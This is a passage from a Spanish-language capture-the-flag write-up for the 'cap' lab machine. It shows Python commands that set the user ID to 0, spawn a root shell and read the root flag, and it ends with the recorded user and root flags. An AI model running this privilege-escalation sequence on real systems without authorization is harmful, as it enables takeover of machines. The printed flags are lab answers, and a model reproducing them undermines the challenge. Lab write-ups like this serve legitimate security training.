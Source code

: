 Importamos la librería os para operar con el sistema operativo. 
```
> import os
```

Establecemos nuestro uid (User ID) a 0, el cual es el ID perteneciente a root. 
```
> os.setuid(0)
```

Veamos si ha tenido éxito:
```
> os.getuid()
0

> os.system("whoami")
root
0
```

Perfecto. Ahora que somos root abrimos una terminal con "bash".
```
> os.system("bash")
```

Y ya tenemos una terminal como root. 
```
root@cap:~# cd /root/

root@cap:/root# ls
root.txt  snap

root@cap:/root# cat root.txt 
2a3ca78ea934fa11b492f79d3ab41e31
```

<br>

## RECAP FLAGS
- **User flag:** a9adb9dde3a123aa29fe274f062476d6
- **Root flag:** 2a3ca78ea934fa11b492f79d3ab41e31

